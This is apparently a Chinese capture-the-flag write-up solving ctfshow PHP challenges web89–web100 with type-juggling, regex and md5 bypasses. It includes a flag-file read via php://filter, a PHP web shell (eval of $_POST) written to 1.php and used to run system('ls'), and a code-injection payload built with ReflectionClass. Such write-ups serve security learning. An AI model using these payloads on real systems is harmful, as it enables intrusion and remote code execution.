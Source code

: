 ﻿---
layout: post
title: ctfshow-php
---
>**web89**
![89](/assets/images/8900.png)
首先，我们应该先搞懂intval这个函数     
intval() 函数用于获取变量的整数值。     
intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1     
intval() 函数作为数组的话空数组返回0，非空则返回1；    
因此，我们可以传一个非空数组让if条件成立，返回flag    
![89](/assets/images/8901.png)    

>**web90**   
![90](/assets/images/9000.png)    
因为有===    
所以我们可以利用num=4476.0，当intval读到符号时返回值   
![90](/assets/images/9001.png)    
还可以利用十六进制和八进制    
num=010574（八进制）   
num=0x117（十进制）    
或者num=4475a   
![90](/assets/images/9002.png)  

>**web91**  
![91](/assets/images/9100.png)   
这里是个正则匹配^开头   $结尾  
这里的意思是说第一个if要以php开头，第二个if不能以php开头结尾     
并且这里i是不区分大小写，m是多行匹配   
就因为这两个if相差m，所以我们可以用%0a换行来匹配    
![91](/assets/images/9101.png)     

>**web92**     
![92](/assets/images/9200.png)     
考察了一个==弱类型比较  
可以试着用八进制和十六进制直接绕过==  
![92](/assets/images/9101.png)
![92](/assets/images/9102.png)
或者利用科学计数法构造第一个if绕过，第二个if遇到字母就结束   
payload：num=4476e123     

>**web93**  
![93](/assets/images/9300.png)    
同上题一样只是过滤了十六进制   

>**web94**
![94](/assets/images/9400.png)     
pos是截取当前字符串第一个  
因此可以利用空格%20绕过   
或者+4476 绕过   
利用===构造4476.1     

>**web95**   
![95](/assets/images/9500.png)   
这次多过滤了小数点，所以用空格加八进制过滤就行    

>**web96**
![96](/assets/images/9600.png)   
这是一道路劲问题因为有highlight_file这个函数   
?u=/var/www/html/flag.php              绝对路径        
?u=./flag.php                          相对路径     
?u=php://filter/resource=flag.php      php伪协议     
![96](/assets/images/9601.png)   

>**web97**   
![97](/assets/images/9700.png)    
这里有md5，用到了md5强碰撞    
所以利用数组返回NULL   
?a[]=1&b[]=2   
![97](/assets/images/9701.png)   

>**web98**   
![98](/assets/images/9800.png)   
这道题运用了三元运算   
第一个是如果get传参，下一次就会把get变成post方式   
中间两个COOKIE 和 SERVER跟没没用，不用管它   
于是只用完成最后一个highlight_file三元运算就行了   
![98](/assets/images/9801.png)   

>**web99**  
![99](/assets/images/9900.png) 
rand会生成随机数  
in——array是延用了==弱类型比较  
所以payload：
get:n=1.php  POST: content=<?php eval($_POST[a]); ?> 
在打开1.php  POST:a=system('ls')    
发现了flag36d.php  在打开即可得到flag   

>**web100** 
![100](/assets/images/10000.png)   
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);   
重点理解这句话，这句话是关键   
首先我们应该补给一下知识   
优先权 && > = > and   
|| > = > or  
因此这句话只用满足v1为数字即可   
第二部分     
反射类的具体使用方法可参考php官网文档,简单来说反射类就是存放了类里的所有东西。     
最简单的方法直接输出这个类即可，也就是构造出 echo new ReflectionClass('ctfshow');     
payload:?v1=1&v2=echo new ReflectionClass&v3=;  

